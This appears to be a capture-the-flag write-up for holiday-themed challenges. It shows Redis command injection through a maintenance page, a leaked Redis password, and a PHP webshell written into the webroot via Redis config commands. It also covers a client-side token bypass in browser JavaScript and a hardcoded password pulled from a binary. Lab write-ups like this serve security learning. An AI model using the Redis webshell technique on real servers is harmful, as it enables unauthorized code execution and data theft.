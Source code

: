 ## Redis RCE

Difficulty - 

There is a terminal in the kitchen running a web app that has a Redis DB on the backend, it is assumed vulnerable to RCE!

Lets take a look here...

The terminal reports 

```
We need your help!!
The server stopped working, all that's left is the maintenance port.
To access it, run:
curl http://localhost/maintenance.php
We're pretty sure the bug is in the index page. Can you somehow use the
maintenance page to view the source code for the index page?
```

And the hint we are provided points at this article

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

```
curl http://localhost/maintenance.php
ERROR: 'cmd' argument required (use commas to separate commands); eg:
curl http://localhost/maintenance.php?cmd=help
curl http://localhost/maintenance.php?cmd=mget,example1
```

```
curl http://localhost/maintenance.php?cmd=whoami
Running: redis-cli --raw -a '<password censored>' 'whoami'
ERR unknown command `whoami`, with args beginning with: 
```

Ah ok so the cmd param is being inserted into a redis-cli command! 

```
curl http://localhost/maintenance.php?cmd=info  
Running: redis-cli --raw -a '<password censored>' 'info'
# Server
redis_version:5.0.3
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:1b271fe49834c463
redis_mode:standalone
os:Linux 4.19.0-13-cloud-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:8.3.0
process_id:6
run_id:34216f4fe22c45b2833c2b23cfefe6fc96801f52
tcp_port:6379
uptime_in_seconds:140
uptime_in_days:0
hz:10
configured_hz:10
...
```

Boom ok so we are getting somewhere!

Well lets try and actually connect 

```
redis-cli -h localhost
```

That works!

But it looks like we need auth, lets see if we can find the config file anywhere

The info command from above shows the config file is found at /usr/local/etc/redis/redis.conf lets try cat-ing that file

Hmm, permissions denied. Well, lets try setting temp creds through the web commands!

`curl http://localhost/maintenance.php?cmd=config+set+requirepass+pass`

No permissions, and no tools such as nmap or msf to bruteforce so it must be the cmd param that we have to do all of this from.

```
player@9a2f1c267db8:~$ curl http://localhost/maintenance.php?cmd=help
Running: redis-cli --raw -a '<password censored>' 'help'
redis-cli 5.0.3
To get help about Redis commands type:
      "help @<group>" to get a list of commands in <group>
      "help <command>" for help on <command>
      "help <tab>" to get a list of possible help topics
      "quit" to exit
To set redis-cli preferences:
      ":set hints" enable online hints
      ":set nohints" disable online hints
Set your preferences in ~/.redisclirc
```

So the elf in the kitchen mentioned something about commas, looks like instead of using plusses or %20 which are the URL encoded characters for whitespace, we want to use commas!

```
curl http://localhost/maintenance.php?cmd=CONFIG,GET,*
Running: redis-cli --raw -a '<password censored>' 'CONFIG' 'GET' '*'
dbfilename
dump.rdb
requirepass
R3disp@ss
masterauth
cluster-announce-ip
unixsocket
logfile
pidfile
/var/run/redis_6379.pid
slave-announce-ip
replica-announce-ip
maxmemory
0
proto-max-bulk-len
536870912
client-query-buffer-limit
1073741824
...
```
This looks interesting, lets connect to the server and try authing

```
redis-cli -h localhost

> AUTH R3disp@ss
OK
```

Boom we are in! Ok now to get index.php...
<?php system('cat index.php');?> 

So `config get *` shows that `dir` is set to `/` which we can change, it also shows that the dbfilename, which is dump.rdb. The hint provides us another clue with what we want to do...

```
Redis RCE
Webshell
From: http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html
You must know the path of the Web site folder:
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
​If the webshell access exception, you can empty the database after backup and try again, remember to restore the database.
```

So if we can set the dir to the webroot, and then anything we put in dbfilename is hosted there, lets try setting the dbfilename to something like emerson.php and the dir to /var/www/html which is where index.php resides. Lastly we need to find a way to cat index.php, that can be accomplished by triggering this php code snippet that will be in emerson.php `<?php system('cat index.php');?>`

So while authed to redis:
```
localhost:6379> config set dir /var/www/html
OK
localhost:6379> config set dbfilename emerson.php
OK
localhost:6379> set emerson "<?php system('cat index.php');?>"
OK
localhost:6379> save
OK

```

Now lets go for the kill!
```
layer@685d44f504ac:~$ curl http://localhost/emerson.php --output -
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime�NI�_used-mem ?
 aof-preamble��� foobar  emerson <?php
# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 
echo "Something is wrong with this page! Please use http://localhost/maintenance.php to se
e if you can figure out what's going on"
?>
/var/www/htmexample1The site is in maintenance modeexample2#We think there's a bug in inde
x.php
dbfilename
          emerson.php����4 �player@685d44f504ac:~$ 

```

## Operate the SantaVator!

This one is a classic example of client side security. If we click on the panel on the wall and open up the developer tools of the browser and browse to `app.js` we can dig around and see that there is an array called `tokens` which is created by parsing the token set in local storage that contains all of the current items in the player's inventory. If we set a breakpoint before the contents of this array are verified, for example line 262, we can allow the JS to execute up to that line, then navigate to the console and type the following 3 commands to spawn the lights. Repeat with other items as necessary
```
tokens.push("greenlight");
tokens.push("redlight");
tokens.push("yellowlight");
tokens.push("workshop-button");
```
Which are the 4 items needed for a powered elevator and the workshop, I am not gonna say how I got this one explicitly, its worth digging through the source code to find this one. 

Boom we've got it! (Note I picked up the 2 knuts and candycane on my own but just got sick of looking for the lights lol)

Note: If you dont eventually gather all the items, you will have to repeat these commands every time you want to power on the elevator.

## HID Box 

## Password in Binary

This is pretty easy! Bushy Evergreen needs a password from a binary and mentions "human readable strings" so lets try the `strings` and just a little grep

```
elf@39e34b976723 ~/lab $ strings door | grep -i password 
/home/elf/doorYou look at the screen. It wants a password. You roll your eyes - the 
password is probably stored right in the binary. There's gotta be a
Be sure to finish the challenge in prod: And don't forget, the password is "Op3nTheD00r"
Beep boop invalid password
```

```
./door
What do you enter? > Op3nTheD00r
Checking......
Door opened!
```

Nice

